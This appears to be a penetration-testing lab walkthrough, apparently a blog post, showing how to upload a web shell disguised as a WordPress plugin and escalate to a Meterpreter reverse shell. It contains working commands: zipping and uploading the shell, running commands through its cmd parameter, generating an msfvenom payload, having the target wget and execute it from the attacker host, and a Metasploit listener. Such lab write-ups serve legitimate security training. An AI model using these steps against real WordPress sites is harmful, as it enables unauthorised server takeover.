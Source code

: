 ```yaml
---
description: >-
  Wordpress Loading Plugin Shell
title:  Wordpress Loading Plugin Shell             # Add title here
date: 2022-12-10 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Wordpress Loading Plugin Shell]                     # Change Templates to Writeup
tags: [exploitation, wordpress, plugin shell]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Obtaining a Shell

To obtain a shell, we first must package the plugin in a way that WordPress knows how to handle. WordPress expects plugins to be in a zip file. When WordPress receives the zip file, it will extract it into the wp-content/plugins directory on the server. WordPress places the contents of the zip file into a folder that matches the name of the zip file itself. Because of this, we will need to make note of the name of the file in order to be able to access our PHP shell later on.

The creation of a zip file is shown in Listing 25.

```bash
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress

kali@kali:/usr/share/seclists/Web-Shells/WordPress$ sudo zip plugin-shell.zip plugin-shell.php 
  adding: plugin-shell.php (deflated 58%)
```

The generated zip file is named plugin-shell.zip and will be placed in the plugin-shell folder within wp-content/plugins on the server.

Now that the plugin package is generated, it's time to upload the shell. First, we need to visit the Plugins page by clicking the _Plugins_ link on the left sidebar.

![Description](/assets/img/Pasted image 20221210223118.png)

Next, we install the plugin by clicking _Add New_ at the top left. This will take us to the "Add Plugins" page.

![Description](/assets/img/Pasted image 20221210223158.png)

Since we are not downloading a plugin from the WordPress plugin directory, we need to select _Upload Plugin_ at the top left of the page.

![Description](/assets/img/Pasted image 20221210223247.png)

This will open up a section where we can select our plugin package. We need to select _Browse_, which will open up a file dialog for us to find the created package.

![Description](/assets/img/Pasted image 20221210223323.png)

With the file dialog open, we navigate to the directory containing our plugin, select the plugin-shell.zip file, and click _Open_ at the bottom of the file dialog.

Finally, to install the plugin, we click _Install Now_.

![Description](/assets/img/Pasted image 20221210223355.png)

Installing the plugin will upload the zip and extract the contents.

Now that the plugin is installed, we can attempt to use it to run system commands on the WordPress target. For this, we can simply use _cURL_. As discussed earlier, the directory for the plugin is wp-content/plugins/, the zip will be extracted into a directory named plugin-shell, and the file that we are targeting is named plugin-shell.php.

Remember that we must also set a _cmd_ parameter containing the command we are attempting to execute on the target system. Let's attempt to run whoami and see if the shell worked.

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
www-data
```

It worked! Based on the output of Listing 26, we are running commands as the www-data user. Now it's time to upload a meterpreter payload and obtain a full reverse shell.

First let's generate a meterpreter payload with the msfvenom utility.

```bash
kali@kali:~$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=443 -f elf > shell.elf
```

We are selecting the Linux reverse TCP meterpreter payload since we know that the target is running on Ubuntu from our previous enumeration efforts. The LHOST option will point to our Kali IP address and we are selecting an LPORT of 443 in an attempt to evade any outbound firewall rules. While it's good practice to always check for any egress filtering, in this case we will make the assumption that port 443 is unrestricted. We are generating the payload as an _elf_ file and redirecting the output to a file named shell.elf in the kali user home directory.

With the meterpreter reverse shell generated, we start a web server to allow the target to download the shell.

```bash
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 ...
```

The webserver in Listing 28 is using the Python _http.server_ module, is instructed to use port 80, and is serving files from the kali user home directory. We chose port 80 again to avoid any potential issues we might run into if there is a firewall blocking arbitrary outbound ports.

With the shell generated and the web server running, we will instruct the target to download the shell. We will use wget from the target to download the shell from our Kali system. However, we must encode any space characters with "%20" since we cannot use spaces in URLs. The command we are running is shown in Listing 29.

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=wget%20http://10.11.0.4/shell.elf
```

If the command worked, we should see an entry similar to the following in our Python webserver's log.

```bash
Serving HTTP on 0.0.0.0 port 80 ...
10.11.1.250 - - [09/Dec/2019 19:40:16] "GET /shell.elf HTTP/1.1" 200 -
```

Success! Next we need to make the shell executable, start a Metasploit payload handler on Kali, and run the _elf_ file on the target to acquire a meterpreter shell. To make the shell executable, we will run chmod +x on it. Once again, we need to remember to urlencode sensitive characters such as space (%20) and "+" (%2b). The command to make the shell executable is displayed in Listing 31.

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=chmod%20%2bx%20shell.elf
```

At this point, the shell should be executable. Next, we will start a meterpreter payload listener on the appropriate interface and port.

```bash
kali@kali:~$ sudo msfconsole -q -x "use exploit/multi/handler;\
>              set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
>              set LHOST 10.11.0.4;\
>              set LPORT 443;\
>              run"
PAYLOAD => linux/x86/meterpreter/reverse_tcp
LHOST => 10.11.0.4
LPORT => 443
[*] Started reverse TCP handler on 10.11.0.4:443 
```

In the msfconsole command above, we are having Metasploit start quietly (-q) and immediately configure the payload handler via the -x option, passing the same payload settings we used when generating the shell.

With our listener running, it's finally time to obtain a reverse shell. This can be done by executing the shell.elf file via the malicious WordPress plugin we installed previously.

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=./shell.elf
```

Returning to our listener, we should see that we have captured a shell.

```bash
[*] Sending stage (985320 bytes) to 10.11.1.250
[*] Meterpreter session 1 opened (10.11.0.4:443 -> 10.11.1.250:53768) at 19:54:41

meterpreter > shell
Process 9629 created.
Channel 1 created.

whoami
www-data

exit
meterpreter > 
```
